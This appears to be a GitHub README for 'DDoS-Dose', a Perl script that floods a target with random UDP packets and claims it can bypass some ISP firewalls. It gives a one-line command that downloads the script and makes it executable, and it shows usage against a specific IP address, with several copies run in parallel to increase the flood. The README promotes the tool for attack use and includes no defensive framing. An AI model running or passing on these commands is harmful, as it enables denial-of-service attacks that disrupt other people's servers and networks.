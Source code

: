 # Script for DDoS-Dose ! 

## Features

- Generate Random UDP Traffic
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- Spoofed: No (doesn't include IP header Modification)

## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp-string%20%7C%20ID%3AA2/random-udp-string.pl && chmod 777 *
```

## Usage

```
perl random-udp-string.pl 162.241.27.65
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65
---> Multithreading Causing Issue
```
```
- This script pre-configured to send traffic to random port, (Line69) Can be Changed!
- This script pre-configured to send traffic with some delay between packet, (Line74) Can be Changed!
- This script pre-configured to send random packet size, (Line68), Can be changed!
- Can adjust time by "timeout 30" command or check (Line58)
```

## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)

## Authors

- [@cyberceros](https://www.github.com/cyberceros)

## Feedback

If you have any feedback, please reach out to us at n@dultr.in






